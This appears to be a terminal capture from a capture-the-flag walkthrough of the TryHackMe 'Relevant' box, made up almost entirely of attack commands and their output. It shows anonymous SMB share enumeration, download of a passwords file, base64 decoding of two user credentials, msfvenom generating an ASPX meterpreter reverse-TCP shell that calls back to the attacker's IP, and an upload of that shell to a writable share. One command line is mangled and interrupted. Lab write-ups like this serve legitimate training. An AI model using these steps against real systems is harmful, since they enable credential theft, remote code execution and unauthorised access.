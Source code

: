 ```
kali@kali:~/CTFs/tryhackme/Relevant$ smbclient -L //10.10.9.11
Enter WORKGROUP\kali's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        nt4wrksv        Disk      
SMB1 disabled -- no workgroup available
kali@kali:~/CTFs/tryhackme/Relevant$ smbclient //10.10.9.11/nt4wrksv
Enter WORKGROUP\kali's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Jul 25 23:46:04 2020
  ..                                  D        0  Sat Jul 25 23:46:04 2020
  passwords.txt                       A       98  Sat Jul 25 17:15:33 2020

                7735807 blocks of size 4096. 4950835 blocks available
smb: \> get passwords.txt
getting file \passwords.txt of size 98 as passwords.txt (0.6 KiloBytes/sec) (average 0.6 KiloBytes/sec)
smb: \> exit
kali@kali:~/CTFs/tryhackme/Relevant$ cat passwords.txt 
[User Passwords - Encoded]
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk

kali@kali:~/CTFs/tryhackme/Relevant$ echo "Qm9iIC0gIVBAJCRXMHJEITEyMw==" | base64 -d
Bob - !P@$$W0rD!123

kali@kali:~/CTFs/tryhackme/Relevant$ echo "QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk" | base64 -d
Bill - Juw4nnaM4n420696969!$$$
```

`Bob:!P@$$W0rD!123`

`Bill:Juw4nnaM4n420696969!$$$`

```
kali@kali:~/CTFs/tryhackme/Relevant$ msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=10.8.106.222 lport=4444 -f aspx -o shell.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 201283 bytes
Final size of aspx file: 1015556 bytes
Saved as: shell.aspx
kali@kali:~/CTFs/tryhackme/Relevant$ smbclient //msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=10.8.50.72 lport=4444 -f aspx -o shell.aspx^C
kali@kali:~/CTFs/tryhackme/Relevant$ smbclient //10.10.9.11/nt4wrksv
Enter WORKGROUP\kali's password: 
Try "help" to get a list of possible commands.
smb: \> put shell.aspx
putting file shell.aspx as \shell.aspx (798.5 kb/s) (average 798.5 kb/s)
smb: \> ls
  .                                   D        0  Wed Oct 14 21:42:49 2020
  ..                                  D        0  Wed Oct 14 21:42:49 2020
  passwords.txt                       A       98  Sat Jul 25 17:15:33 2020
  shell.aspx                          A  1015556  Wed Oct 14 21:42:50 2020

                7735807 blocks of size 4096. 4935058 blocks available
smb: \>
```
